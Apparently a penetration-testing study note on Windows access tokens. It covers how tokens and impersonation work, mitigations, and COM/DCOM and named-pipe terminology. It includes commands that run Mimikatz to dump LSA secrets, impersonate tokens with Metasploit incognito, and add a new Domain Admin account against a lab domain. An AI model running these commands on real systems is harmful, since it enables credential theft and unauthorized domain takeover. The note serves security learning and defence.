 Access tokens are security objects in Windows that represent the identity and permissions of a user or process. They are crucial for authentication and authorization. They are created by the Local Security Authority (LSA) when a user login to a system whether it is locally, over the network, as a service, or even directly calling an API function. 

## How It Works?  
- **Creation**: Tokens are generated when a user logs in or a process starts.  It contains ID of the logon session, User and group SIDs, integrity level and privileges held by the user or groups the user is in.  
- **Use**: Tokens are used to authenticate and authorize access to resources. A process can use an impersonation token to act on behalf of another user.  
- **Impersonation**: A process can temporarily adopt the security context of another user, allowing it to perform actions with the impersonated user's privileges.
 
 Types of Tokens  
- **Primary Token**: Represents the security context of a process.  
- **Impersonation Token**: Allows a process to assume the identity and privileges of another user or process.  
- **Delegation Token**: Used in scenarios where a service needs to perform actions on behalf of a user, often involving Kerberos delegation.

To check privileges
```
whoami /priv
```

Invokes `mimikatz` through `powershell` to dump LSA secrets
```
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer HYDRA.marvel.local
```

[[Gaining Shell Access]] with metasploit
![[Gaining Shell Access#^6e325c]]
Load incognito
```
1. load incognito
2. list_tokens -u
3. impersonate_token <DOMAIN>\\<USERNAME>

```
Add new user as Domain Admin
```
1. net user /add <USERNAME> <PASSWORD>@ /domain
2. net group "Domain admins" <USERNAME> /ADD /DOMAIN

```

## Mitigation

| **Methods**                         | **Description**                                                                                                                                 |
| ----------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| **Secure Token Storage**            | Protect tokens from unauthorized access and ensure secure handling and storage of tokens.                                                       |
| **Least Privilege**                 | Apply the principle of least privilege to limit the permissions of user accounts and processes to reduce the impact of potential impersonation. |
| **Access Control Policies**         | Enforce strict access control policies and regularly review user and process permissions.                                                       |
| **Limit User/Group Token Creation** | Restrict who can create or manage tokens to trusted administrators or processes.                                                                |
| **Account Tiering**                 | Separate accounts into different security tiers to limit damage from compromised lower-tier accounts.                                           |
| **Local Admin Restriction**         | Restrict local administrative privileges to reduce the risk of token manipulation and unauthorized actions.                                     |

## Terminologies
- Component Object Model (COM): A system that creates binary software components that can interact
- DCOM (Distributed Component Object Model) allows software components to communicate over networked computers.
- `OXID` Resolver: A service (Part of `RPCSS` service) that runs on every machine and supports COM. It allows a client to resolve a COM server object and bind to it for methods invocations. (Typically authenticated using NTLM)
Note: *Starting from Windows 10 1809 & Windows Server 2019, its **no more possible** to query the OXID resolver on a port different than 135*
- IMarshal interface: Enables a COM object to define and manage the marshaling of its interface pointers.
- Marshaling: The process of packaging data into packets for transmission to a different process or computer
- Unmarshaling: The process of recovering that data at the receiving end.
- `CLSID`: a unique global identifier that identifies a COM class object, like Universally unique identifier (UUID).
- Background Intelligent Transfer Service (BITS): A Microsoft service that facilitates asynchronous, prioritized and throttled file transfers (Downloading files in the background).
- WinRM is a management protocol used by Windows to handle remote management and automation tasks. It is built on the HTTP protocol, and typically administrators use it to manage systems remotely, for instance, via PowerShell remoting.

Pipes are a method of **Inter-Process Communication (IPC)** on Windows, enabling processes to share data. A **pipe** acts as a shared channel where one process (the **pipe server**) writes data and another (the **pipe client**) reads it. Pipes can be either **anonymous** or **named**.  
- **Anonymous pipes** are used for communication between a **parent and child process**, typically for redirecting input or output. These pipes are simple but can’t be used between unrelated processes.  
- **Named pipes**, on the other hand, allow communication between **unrelated processes**, even across networks, as long as the client has appropriate access permissions. They are a versatile way for independent processes to exchange data.
